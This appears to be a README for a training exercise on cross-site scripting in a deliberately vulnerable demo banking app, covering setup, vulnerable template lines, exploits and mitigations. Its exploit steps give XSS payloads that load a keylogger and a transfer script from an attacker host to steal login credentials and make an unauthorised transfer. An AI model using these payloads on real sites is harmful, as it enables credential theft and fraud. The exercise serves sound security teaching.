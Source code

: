 # Exercise 2 - XXS 

XSS exercise to help ypu understand XSS and its mitigations

## Setup and Start Applications

1. check out exercise1 
   * from command line: 'git checkout exercise1'
1. start the v-bank-app in debug mode
   * with maven command:'mvn clean spring-boot:run -f ./v-bank-app/pom.xml'
1. start the attacker-app
   * woth maven command: 'mvn clean spring-boot:run -f ./attacker-app/pom.xml'
   
## Search for XSS vulnerabilities

Hints:
* This app is a rather traditional multi page application with not much Ajax/Javascript magic. Therefore it is (mostly) susceptible to source based XSS vulnerabilities.
* Look for reflected XSS vulnerabilities where request parameters are directly written to the HTML output (page.tag is template used for all pages)
* Look for stored XSS vulnerabilities where form values are saved without validation/encoding/sanitization and then / or printed without escaping

Present vulnerabilities:
* page.tag template prints a number of requests parameters into the HTML without escaping:
  * *error* : `<div ...>${error}</div>`
  * *info* : `<div ...>${info}</div>` 
  * *message* : `<div ...>${message}</div>`
* *transfer.jsp* and *BankController.doTransfer(...)* save the transfer details without validation/etc. and *history.jsp* displays them w/o escaping

## Exploit and understand
1. Test reflected XSS in login page. You should get an alert pop-up with '1' displayed as the javascript in the request parameter executes: http://vbank.0.0.0.0.xip.io:8080/login?info=%3Cscript%3Ealert(1)%3C/script%3E 
1. Exploit stored XSS in login page:
   * As Alice send Bob the login link with installs a keylogger by exploiting the vulnerability: 
     http://vbank.0.0.0.0.xip.io:8080/login?info=%3Cscript%20src=%22http://attack.0.0.0.0.xip.io:9090/js/keylog.js%22%3E%3C/script%3E 
   * the keylogger send each keystroke to the attack app, the logged keystrokes you can see at http://attack.0.0.0.0.xip.io:9090/viewlog (do not let the browser autofil the form! ...because there are no keystrokes then)
   * This way Alice can steal Bob's login credentials. Even though the keylogger and the log viewer app are by far no perfect
1. Test stored XSS 
   * go to the transfer page and make a transfer to any valid account (i.e. 2-123456-22) with the note '<script>alert(2)</script>'
   * then go to the history page where you should get an alert pop-up with '1' displayed as the javascript entered in the note filed executes.
1. Exploit stored XSS
   * as Alice (alice / h1alice) you know Bob's account number (1-123456-11) and you will transfer him a little amount with the note including a malicious javascript posting a transfer (and overcoming CSRF protection by including the token)
     * The attack script is at http://attack.0.0.0.0.xip.io:9090/js/attack.js; use the method *transfer(formname, fromAccount, toAccount, amount, currency, action)* in the note. 
     * For example: `<script src="http://attack.0.0.0.0.xip.io:9090/js/attack.js"></script><script>transfer("fromBob1","1-123456-11","3-123456-33","1000","CHF")</script>`
      * Please transfer 1 CHF to Bob's account with the above note.
   * As Bob logs in and reviews his transactions the malicious script included in Alice's transfer executes and transfers Alice a larger amount without Bob's consent.
     * login as Bob (bob / h3ll0bob) and go to the history page (by clickin on the account number) 
     * the malicious javascript (XSS) should be loaded from the database and executed
     * if you refresh the page you sould see the transaction
  
## Mitigations:
  * validate input
  * encode text input (i.e. with HTML encoding)
  * sanitize text/HTML input (remove potentially dangerous char sequences)
  * escape output (replace control characters into renderable counterparts that are not interpreted as controls/commands by the parser)

## Fix
* Escape output in *page.tag* and *history.jsp*:
For JSP please use c:out tag; you may explicitly set the escapeXml to true '<c:out value="${variable}" escapeXml=true />' 
* Validate/encode input in *BankController.doTransfer(...)*
  
You may see the solution at https://github.com/vargadan/v-bank/tree/exercise2-solution
